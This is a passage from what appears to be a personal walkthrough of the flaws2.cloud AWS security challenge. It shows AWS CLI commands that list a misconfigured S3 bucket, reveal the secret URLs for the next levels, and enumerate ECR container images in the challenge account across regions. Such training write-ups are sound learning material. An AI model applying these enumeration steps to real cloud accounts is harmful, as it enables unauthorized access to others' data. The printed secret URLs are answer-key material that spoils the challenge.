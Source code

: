 
```
aws s3 ls s3://level1.flaws2.cloud --profile level1.flaws2
```
 
![](CLOUD/Screenshot%202019-11-02%20at%206.28.31%20PM.png)


Check that file in browser

`http://level1.flaws2.cloud/secret-ppxVFdwV4DDtZm8vbQRvhxL8mE6wxNco.html`

It will give access to next challenge 

`http://level2-g9785tw8478k4awxtbox9kk3c5ka8iiz.flaws2.cloud`



**| 2. Misconfigured ECR [ Elastic Container registry ]**

`http://container.target.flaws2.cloud/`

As we know it is a container challenge, lets list the publicly available containers of that AWS Account

Get account id and use all region to find out any available containers

```
aws sts get-caller-identity --profile level1.flaws2
aws ecr list-images --repository-name level2 --registry-id 653711331788  --region us-east-1 --profile level1.flaws2
```

Or

```
aws sts get-caller-identity --profile level1.flaws2
while read LINE; do aws ecr list-images --repository-name level2 --registry-id 653711331788 --profile level1.flaws2 --region "$LINE" ; done < /Users/gopikrishna/Desktop/regions.txt
```


![](CLOUD/Screenshot%202019-11-07%20at%2012.07.49%20AM.png)
